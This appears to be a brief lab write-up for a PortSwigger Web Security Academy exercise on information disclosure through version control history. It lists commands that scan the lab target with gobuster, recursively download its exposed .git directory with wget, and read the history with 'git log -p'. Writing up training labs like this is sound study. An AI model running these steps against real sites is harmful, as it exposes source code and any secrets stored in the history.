 # Information disclosure in version control history

[Lab](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-version-control-history)

## Recognition

```bash
export TARGET=https://ac021f0d1ecba418c02c20fc00bb00e1.web-security-academy.net 
```

```bash
gobuster -e -u $TARGET -w /opt/SecLists/Discovery/Web-Content/versioning_metafiles.txt
```

```bash
wget -r --no-parent https://ac021f0d1ecba418c02c20fc00bb00e1.web-security-academy.net/.git
```

```bash
git log -p
```
